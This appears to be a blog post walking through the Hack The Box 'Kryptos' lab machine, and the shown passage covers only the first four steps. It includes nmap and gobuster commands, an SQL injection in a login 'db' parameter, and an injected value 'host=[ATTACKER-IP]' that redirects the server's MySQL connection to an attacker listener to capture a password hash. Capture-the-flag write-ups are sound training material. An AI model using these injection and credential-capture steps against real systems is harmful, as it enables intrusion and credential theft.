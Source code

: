 ```yaml
---
title: "Kryptos HTB - Insane Linux Box Walkthrough"
date: 2025-09-22T08:30:00Z
tags: ["insane-linux", "web", "sql-injection", "mysql", "cryptography", "rc4", "stream-cipher", "known-plaintext", "sqlite", "file-inclusion", "rng", "eval", "python", "bottle", "privilege-escalation"]
difficulty: ["insane"]
categories: ["HTB", "Linux"]
draft: false
description: "Complete walkthrough of Kryptos HTB machine featuring SQL injection database hijacking, RC4 stream cipher cryptanalysis, SQLite injection for file write, VimCrypt decryption, and Python eval exploitation through weak RNG"
---
```


# Kryptos HTB - Insane Linux Box Walkthrough

{{< youtube 4uCoI5YzOwk >}}

## Key Exploitation Steps and Techniques (Chronological Order)

The following is a chronological extraction of the key exploitation steps and techniques from the provided transcript. I've focused on the core actions, vulnerabilities exploited, and tools/techniques used, based on the walkthrough's narrative flow. Steps are numbered and include brief descriptions, techniques, and relevant tools/commands for clarity.

1. **Initial Reconnaissance (Port Scanning and Service Enumeration)**
   - Performed Nmap scan to identify open ports: SSH (22) and HTTP (80) on Ubuntu server running Apache and PHP.
   - Technique: Network scanning for service discovery.
   - Tools/Commands: `nmap -sC -sV -oA kryptos [TARGET-IP]`.

2. **Web Application Exploration (Login Page Analysis)**
   - Accessed the web root (HTTP/80), found a login form. Tested default creds (admin/admin, guest/guest) – failed.
   - Inspected source code, identified CSRF token in hidden input.
   - Ran directory brute-forcing in background.
   - Technique: Manual web inspection and fuzzing preparation.
   - Tools/Commands: Browser (Firefox/Burp Suite), Gobuster (`gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -x php -u http://[TARGET-IP] -o dirbust_port80_php`).

3. **Identifying SQL Injection in Login Parameters**
   - Used Burp Repeater to fuzz parameters (username, password, db). Found SQL injection in `db` parameter (e.g., `db=crypt'o` triggered PDO error 1044: access denied).
   - Noted requirement for valid CSRF token for injection to work.
   - Technique: Parameter fuzzing and error-based SQL injection.
   - Tools/Commands: Burp Suite Repeater.

4. **Redirecting Database Connection to Attacker's Machine**
   - Injected into `db` to rewrite connection string (e.g., `db=crypt';host=[ATTACKER-IP]`). Set up local MySQL listener.
   - Captured MySQL authentication attempt, obtained challenge-response hash.
   - Technique: SQL injection for connection hijacking and credential capture.
   - Tools/Commands: `nc -lvnp 3306`, Metasploit (`use auxiliary/server/capture/mysql; run`).
